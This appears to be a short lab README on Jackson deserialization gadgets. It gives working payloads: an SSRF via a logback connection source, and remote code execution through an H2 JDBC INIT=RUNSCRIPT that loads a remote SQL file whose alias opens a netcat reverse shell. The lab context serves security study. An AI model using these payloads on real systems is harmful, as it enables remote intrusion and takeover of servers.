 # jackson deserialization lab

Whole lab is based on Doyensec blogpost: https://blog.doyensec.com/2019/07/22/jackson-gadgets.html


## Run docker container

    docker run -ti java-deser-jackson-h2

## exploitation

SSRF:

    jruby test.rb "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:tcp://127.0.0.1:8090/~/test\"}]"


RCE:

Create `inject.sql`:

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('nc 172.17.0.1 8090 -e /bin/sh')
```


Start a webserver to serve `inject.sql`:

    ruby -run -e httpd . -p 8000


Start listener:

    nc -nlvp 8090

Run jackson

    jruby test.rb "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://172.17.0.1:8000/inject.sql'\"}]"

